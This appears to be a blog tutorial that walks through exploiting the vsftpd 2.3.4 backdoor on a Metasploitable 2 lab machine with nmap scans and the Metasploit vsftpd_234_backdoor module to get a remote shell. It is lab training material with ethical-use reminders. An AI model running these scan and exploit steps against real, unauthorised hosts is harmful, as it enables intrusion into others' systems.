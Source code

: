 ```yaml
---

title: "Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit" classes: wide header: teaser: /assets/images/metasploit/logo.png overlay\_image: /assets/images/metasploit/logo.png overlay\_filter: 0.5 ribbon: Red excerpt: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." description: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." categories:

- Exploitation
- Penetration Testing tags:
- Metasploit
- Ethical Hacking
- Nmap
- Cybersecurity toc: true toc\_sticky: true toc\_label: "On This Blog" toc\_icon: "biohazard"

---
```


# Intro

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. This tutorial is for **educational purposes only** and should only be used in a controlled lab environment. Never test without permission.

---

## **🔍 Step 1: Find the Target’s IP**

First, we need to identify the IP address of our **Metasploitable 2** machine. Run:

```bash
ip a  # On Linux
ifconfig  # Alternative command
```

On **Kali**, use:

```bash
nmap -sn 192.168.93.0/24
```

This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).

---

## **🔎 Step 2: Scan for Open Ports**

Once we have the target's IP, let’s **scan for open services**:

```bash
nmap -sV -p- 192.168.93.129
```

🔹 `-sV`: Detects service versions\
🔹 `-p-`: Scans **all** 65,535 ports

🚀 **Result:** Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.

---

## **📌 Step 3: Exploit vsftpd 2.3.4**

Now, we use **Metasploit** to exploit the vulnerable service:

```bash
msfconsole
```

Select the exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Check the required options:

```bash
show options
```

Set the **target IP (RHOSTS)** and the **target port (RPORT)**:

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```

Run the exploit:

```bash
exploit
```

If successful, this gives us a **remote shell** on the target! 🎯

---

## **🖥️ Step 4: What Can We Do With the Shell?**

Now that we have access, we can: ✔️ List files: `ls`\
✔️ Check users: `whoami`\
✔️ Read system info: `uname -a`

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.

---

## **⚠️ Ethical Hacking Reminder**

🔹 This tutorial is **for educational purposes only**.\
🔹 Always have **explicit permission** before testing security.\
🔹 Keep your systems **updated** to avoid these vulnerabilities.

---

## **📚 More Resources**

🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)\
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)\
🔗 Nmap: [https://nmap.org/](https://nmap.org/)

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍 #CyberSecurity #EthicalHacking #Metasploit #PenTesting